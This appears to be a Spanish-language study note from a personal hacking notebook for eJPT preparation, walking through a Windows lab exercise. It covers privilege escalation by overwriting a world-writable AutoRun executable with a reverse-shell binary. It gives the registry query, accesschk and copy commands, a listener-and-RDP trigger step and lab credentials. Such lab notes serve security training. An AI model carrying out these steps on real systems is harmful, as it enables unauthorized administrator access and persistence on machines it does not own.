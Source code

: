 - Consulta el registro de ejecutables de AutoRun:

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

- Usando accesschk.exe, tenga en cuenta que uno de los ejecutables de AutoRun es escribible por todos:

```
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"

```
- Copie el ejecutable reverse.exe que creó y sobrescriba el ejecutable AutoRun con él:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```

- Inicie un oyente en Kali y luego reinicie Windows VM. Abre un nuevo PDR sesión para activar un shell inverso que se ejecuta con privilegios de administrador. No debería tener que autenticarse para activarlo, sin embargo, si la carga útil no se dispara, inicie sesión como administrador (admin/password123) para activarlo. ¡Tenga en cuenta que en un compromiso del mundo real, tendría que esperar a que un administrador inicie sesión por sí mismo!  

```
rdesktop 10.10.226.103
```

enlace:
[[Local/Ciberseguridad/HACKING/CERTIFICACIONES/EJPT/Preparacion-Ejpt]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Herramientas]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Registry - AlwaysInstallElevated]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Windows/Generate a Reverse Shell Executable]]
